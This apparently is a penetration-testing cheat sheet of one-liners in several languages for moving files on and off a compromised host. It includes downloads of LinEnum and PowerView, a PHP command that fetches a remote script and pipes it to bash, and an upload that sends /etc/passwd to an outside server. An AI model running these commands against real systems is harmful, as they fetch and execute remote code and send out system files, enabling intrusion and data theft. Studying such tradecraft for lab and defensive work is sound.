 ```yaml
---
title: File Transfer with code
draft: false
tags:
---
```


# Download
## Python

Downloading files using Python 2.7 on Linux:

```shell-session
[!bash!]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

Downloading files using Python 3 on Linux:

```shell-session
[!bash!]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP

Download files with PHP File_get_contents():

```shell-session
[!bash!]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

Download files with PHP Fopen():

```shell-session
[!bash!]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

Download file using PHP and pipe it to bash:

```shell-session
[!bash!]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Ruby

```shell-session
[!bash!]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

## Perl

```shell-session
[!bash!]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript

Following JS code is based on [here](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068).

Create a file called wget.js:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We can use created wget.js along with cscript.exe to download files:

```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

# Upload

## Python3

Start a uploadserver:

```shell-session
[!bash!]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Upload file:

```shell-session
[!bash!]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
